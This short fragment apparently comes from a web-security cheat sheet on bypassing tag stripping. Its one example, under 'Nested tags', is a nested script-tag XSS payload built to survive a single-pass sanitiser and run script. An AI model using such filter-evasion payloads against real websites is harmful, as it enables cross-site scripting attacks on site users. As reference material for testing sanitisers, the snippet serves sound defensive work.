 Techniques for bypassing tag stripping

Nested tags
`<sc<script>ript>alert('XSS')</sc</script>ript>`
